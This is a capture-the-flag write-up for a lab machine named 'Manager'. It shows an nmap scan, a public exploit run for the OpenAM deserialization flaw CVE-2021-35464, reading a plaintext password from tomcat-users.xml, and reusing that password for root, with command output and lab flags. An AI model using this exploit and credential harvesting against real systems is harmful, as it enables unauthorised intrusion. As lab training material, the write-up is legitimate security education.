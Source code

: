 # Manager


By doing a quick scan we can notice an Apache Tomcat on port 8080.
```
# nmap -sCV -p- 10.129.172.131
Nmap scan report for 10.129.172.131
[...]
Host is up (0.19s latency).                                                                                                                                              
8080/tcp  open     http        Apache Tomcat 9.0.48
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Did not follow redirect to http://manager.htb:8080/openam/
```

![Openam login portal](../img/openam_portal.png "Openam login portal")

This version of OpenAM is vulnerable to a deserialization attack.
The exploit can be found [here](https://www.exploit-db.com/exploits/50131).

```
$ python3 CVE-2021-35464.py -c whoami
[?] Please enter the URL [http://192.168.0.100:7080/openam] : http://manager.htb:8080/openam/
[!] Verifying reachability of http://manager.htb:8080/openam/
[+] Endpoint http://manager.htb:8080/openam/ reachable
[!] Finding correct OpenAM endpoint
[+] Found potential vulnerable endpoint: http://manager.htb:8080/openam/oauth2/..;/ccversion/Version
[+] !SUCCESS! Host http://manager.htb:8080/openam/ is vulnerable to CVE-2021-35464
[+] Running command "whoami" now:

tomcat
```
By running this exploit can we establish a revshell to grab the user flag:

![Getting a reverse shell](../img/revshell.png "Getting a reverse shell")

```
tomcat@manager:~$ cat /opt/tomcat/user.txt
cat /opt/tomcat/user.txt
HTB{1n53cur3_d353r14l1z4710n_c4n_b3_v3ry_d4n63r0u5}
```

When digging into Tomcat configuration we noticed a password in the tomcat-users.xml file.
```
tomcat@manager:~/conf$ cat /opt/tomcat/conf/tomcat-users.xml
[...]
 <role rolename="admin-gui"/>
  <user username="admin" password="BXJ^JA3y4!nE8x9q" roles="admin-gui"/>
```

This password is actually the root password. We can complete the boxe by running su and grab the root flag.
```
tomcat@manager:~/conf$ su
Password: BXJ^JA3y4!nE8x9q
root@manager:/opt/tomcat/conf# id
uid=0(root) gid=0(root) groups=0(root)
root@manager:/opt/tomcat/conf# cat /root/root.txt
cat /root/root.txt
HTB{p455w0rd_r3us3_c4n_l34d_t0_syst3m_4bus3}
```